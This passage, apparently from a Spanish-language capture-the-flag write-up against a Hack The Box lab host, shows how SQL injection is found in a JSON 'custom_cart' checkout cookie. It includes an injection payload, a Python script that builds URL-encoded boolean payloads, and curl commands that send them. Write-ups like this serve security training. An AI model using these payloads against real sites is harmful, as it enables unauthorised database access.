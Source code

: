 Ahora, cuando añadamos un artículo a nuestro carrito y naveguemos a /index.php?controller=cart&action=show, haremos clic en el botón de pago para ser redirigidos al sitio de pago.

## Investigación de la funcionalidad

Es interesante cómo este sitio es capaz de determinar qué artículo teníamos en nuestro carrito teniendo en cuenta que no proporcionamos ningún parámetro HTTP GET o POST. Vamos a investigar.

Observando la solicitud inicial que enviamos al sitio de pago en el mapa del sitio de BurpSuite, podemos ver que nuestra solicitud contiene una cookie inusual llamada custom_cart. El valor de esta cookie se puede descifrar automáticamente resaltándolo, revelando un objeto JSON con el código de producto y la cantidad del artículo de pago.

Encontramos una misteriosa cookie en BurpSuite

Podemos deducir que el sitio utiliza el código de producto suministrado en custom_cart para encontrar el precio del artículo, ya que no suministramos el precio, sino sólo el código de producto. Es probable que esta actividad sea gestionada por algún tipo de solución de base de datos, como un servidor SQL. Teniendo esto en cuenta, podemos comprobar si esta funcionalidad es vulnerable a la inyección SQL.
## Descubrimiento de vulnerabilidades

Introduzcamos algunas cargas útiles básicas de inyección SQL en la cookie de la pestaña de repetición de BurpSuite para ver si es posible la inyección SQL.

Respuesta del servidor a una carga útil de inyección SQL común

```bash
{"CRAAFTKP'#":"1"}
```

La respuesta a la primera carga útil sugiere que la inyección SQL es posible, pero podemos asegurarnos enviando una carga útil que debería evaluarse como falsa, y otra que debería ser verdadera.

```bash
#!/usr/bin/env python3

from urllib.parse import quote
from sys import argv

if len(argv) == 2:
        sqli = argv[1]
        sqli = sqli.replace('\\', '\\\\')
        sqli = sqli.replace('"','\\"')
        print(quote('{"' + argv[1] + '":"1"}'))
```

```bash
chmod +x makepayload.py
true=$(./makepayload.py "' OR 1=1#") # Always resolves to true
false=$(./makepayload.py "' AND 1=2#") # Always resolves to false

url="https://checkout.shared.htb"
curl -k -s $url -b "custom_cart=$true" | sed 's/^ *//' > true.html
curl -k -s $url -b "custom_cart=$false" | sed 's/^ *//' > false.html
```
